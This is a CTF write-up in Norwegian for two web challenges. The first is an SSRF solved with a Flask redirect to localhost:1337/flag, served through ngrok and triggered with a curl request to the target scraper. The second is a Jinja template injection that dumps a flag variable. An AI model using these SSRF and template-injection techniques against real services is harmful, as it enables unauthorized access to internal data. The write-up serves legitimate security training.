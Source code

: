 
## ssurfing da web

### Oppgave

### Løsning

```py
from flask import Flask, redirect

app = Flask(__name__)

@app.route("/")
def index():
    return redirect("http://localhost:1337/flag", code=302)

if __name__ == "__main__":
    app.run(host="0.0.0.0")
```

```bash
ngrok http 5000
curl "-X POST https://ssrfingdaweb.pwn.toys/scrape?url=https://_uniqueid_.ngrok-free.app" 
```

<details><summary>Flagg</summary></details>


## webbyarmor

### Analyse av oppgaven

Oppgaven består av en uleselig pythonkode som er generert (beskyttet) av pyarmor. Sammen med koden ligger det også en html template, secret.html, som ser ut til å bli rendret av serveren. I tillegg ligger det også en requirements.txt-fil, som avslører at filen bruker flask og jinja2. 

Når koden kjøres starter den en flask development server som kan besøkes i browser på localhost. Det er enkelt å forstå det grunnlegende i hva denne koden gjør, selv om koden er gjemt. Siden jinja også er importert går tankene fort mot jinja template injection.


### Løsning

Løsningen er å bruke Jinja injection direkte inn i secret.html-fila.

Siden vi kan endre templaten akkurat slik vi vil er det ikke værre enn å skrive `{{ self.__dict__ }}` i dokumentet for å avsløre hvilke variabler eller funksjoner vi har å jobbe med. Dette avslører en variabel, `FLAG_13243235612213abcdefghijklmnopqrstuvwxyz`, som inneholder flagget i klartekst.

<details><summary>Flagg</summary></details>


